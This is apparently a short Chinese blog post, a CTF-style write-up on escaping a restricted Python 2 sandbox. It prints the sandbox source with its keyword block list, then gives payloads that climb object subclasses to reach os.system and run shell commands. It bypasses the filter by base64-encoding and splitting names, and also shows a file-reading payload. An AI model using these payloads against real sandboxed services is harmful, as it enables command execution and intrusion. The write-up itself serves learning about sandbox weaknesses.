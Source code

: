 ```yaml
---
layout: post
title: python沙箱逃逸
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


future引用了python3的新特性，所以是不能直接回回显，得用print  
  
file函数可以读取。  

print(().__class__.__bases__[0].__subclasses__()[40]('./sx2.py').read())  

读取源码后:   

```
from __future__ import print_function
banned = [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]
targets = __builtins__.__dict__.keys()
targets.remove('raw_input')
targets.remove('print')
for x in targets:
    del __builtins__.__dict__[x]
while 1:
    print(">>>", end=' ')
    data = raw_input()
    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data

```

没有ban reload函数，所以思路就是  

>     reload(__builtins__)  可没想到不知道为啥不行。然后想别的办法。  

只禁用了builtins里的函数，那我们找<class 'site._Printer'>  

payload  
>     print("".__class__.__mro__[2].__subclasses__()[72].__init__.__globals__['os']).system('dir')（windows下，我的linux下是71)。  
  

可发现还是不行，原因是不仅仅把builtins里面的危险函数禁用了，还有关键字符一起禁用了(在最后的一个小的if判断里面)  

>     于是想到'os'变为'b3M='.decode('base64')  



最终的payload  
>     print("".__class__.__mro__[2].__subclasses__()[72].__init__.__globals__['b3M='.decode('base64')]).system('dir')    

另外从别人那里偷来一句:   
>     print(().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls'))